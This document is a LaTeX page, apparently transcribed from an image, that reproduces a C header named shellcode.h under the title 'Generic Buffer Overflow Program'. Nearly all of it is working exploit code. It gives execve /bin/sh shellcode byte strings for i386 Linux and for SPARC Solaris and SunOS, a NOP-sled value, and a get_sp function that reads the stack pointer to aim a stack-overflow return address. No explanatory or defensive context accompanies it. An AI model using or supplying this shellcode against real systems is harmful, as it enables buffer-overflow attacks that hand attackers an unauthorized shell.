 \documentclass[12pt]{article}
\begin{document}
\section{Generic Buffer Overflow Program}


\begin{lstlisting}[caption=shellcode.h,frame=single,frameround=tttt,breaklines=true]
#if defined(__i386__) && defined(__linux__)
#define NOP_SIZE        1
char nop[] = "\x90";
char shellcode[] =
  "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b"
  "\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd"
  "\x80\xe8\xdc\xff\xff\xff/bin/sh";

unsigned long get_sp(void) 
{
   __asm__("movl %esp,%eax");
}

#elif defined(__sparc__) && defined(__sun__) && defined(__svr4__)

#define NOP_SIZE        4

char nop[]="\xac\x15\xa1\x6e";

char shellcode[] =
  "\x2d\x0b\xd8\x9a\xac\x15\xa1\x6e\x2f"
  "\x0b\xdc\xda\x90\x0b\x80\x0e"
  "\x92\x03\xa0\x08\x94\x1a\x80\x0a\x9c"
  "\x03\xa0\x10\xec\x3b\xbf\xf0"
  "\xdc\x23\xbf\xf8\xc0\x23\xbf\xfc\x82"
  "\x10\x20\x3b\x91\xd0\x20\x08"
  "\x90\x1b\xc0\x0f\x82\x10\x20\x01\x91\xd0\x20\x08";

unsigned long get_sp(void) 
{
  __asm__("or %sp, %sp, %i0");
}

#elif defined(__sparc__) && defined(__sun__)

#define NOP_SIZE        4
char nop[]="\xac\x15\xa1\x6e";

char shellcode[] =
  "\x2d\x0b\xd8\x9a\xac\x15\xa1\x6e\x2f"
  "\x0b\xdc\xda\x90\x0b\x80\x0e"
  "\x92\x03\xa0\x08\x94\x1a\x80\x0a\x9c"
  "\x03\xa0\x10\xec\x3b\xbf\xf0"
  "\xdc\x23\xbf\xf8\xc0\x23\xbf\xfc\x82"
  "\x10\x20\x3b\xaa\x10\x3f\xff"
  "\x91\xd5\x60\x01\x90\x1b\xc0\x0f\x82"
  "\x10\x20\x01\x91\xd5\x60\x01";

unsigned long get_sp(void) 
{
  __asm__("or %sp, %sp, %i0");
}

#endif
\end{lstlisting}
\end{document}
